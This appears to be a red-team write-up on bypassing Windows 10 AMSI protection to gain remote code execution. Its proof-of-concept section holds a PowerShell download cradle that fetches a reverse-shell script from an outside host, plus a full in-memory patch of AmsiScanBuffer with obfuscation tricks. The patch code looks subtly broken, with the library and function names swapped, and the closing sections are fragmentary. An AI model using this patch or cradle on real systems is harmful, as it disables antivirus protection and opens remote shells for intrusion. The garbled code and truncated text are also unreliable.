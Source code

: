 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Obfuscation Methodolgy Anlysis**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline

The goal of this write-up is to demonstrate bypassing the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28). The objective was to gain a Remote Code Execution (RCE) as NT/Authority System.

![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime

By default windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware. This ultimately prevents arbitrary execution of code.
# AMSI Evasion
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Divide codes into smaller components and assemble at runtime, evading static analysis.  

##### Obfuscation: 
Utilize obfuscation techniques to obscure the true intent of the script, making it challenging for AMSI scanners to interpret the code accurately.  

#####  Memory Patching: 
Modify the AMSI Dynamic Link Library (DLL) in memory to either disable or alter its functionality temporarily.  

#### Powershell Downgrade: 
Downgrade to Windows PowerShell 2.0. It lacks essential security controls like AMSI protection, making it susceptible to exploitation as a means of evasion.

## Proof of Concept

![](/assets/AV/Final.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through powershell using the below command in memory.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI sucessfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching
In order to bypass AMSI, the tester utilzed the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"
// thing 
// using System.Collections.ArrayList;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```


By applying a patch to the `AmsiScanBuffer` function in `AMSI.dll`, using specific assembly code (mov eax, 0x80070057 and ret), the function promptly returns an error code, effectively avoiding the scanning of PowerShell code. This method allows the attacker's PowerShell code to execute without triggering AMSI's detection.

However, it is essential to acknowledge that even with the aforementioned payload, AMSI might still identify the content as malicious unless proper obfuscation methodologies are implemented. To conceal the payload's content and intention, the tester opted to utilize Chameleon PowerShell Obfuscator. Chameleon is a specialized tool designed to obfuscate PowerShell scripts and circumvent AMSI and commercial antivirus solutions. It employs a range of obfuscation techniques to evade common detection signatures, thereby enhancing its effectiveness in avoiding detection. Examples of obfuscation methods include but are not limited to comment deletion/substitution
string substitution (variables, functions, data-types) ,variable concatenation ,indentation randomization ,semi-random backticks insertion and randomization.

After proper obfuscation techniques were in place, the tester hosted a python web server on port 8443.
```bash
python3 -m http.server 8443
```

amsi area.

## Weaponization

## Reference
-레드팀 플레이북 Read team playbook, Offensive Security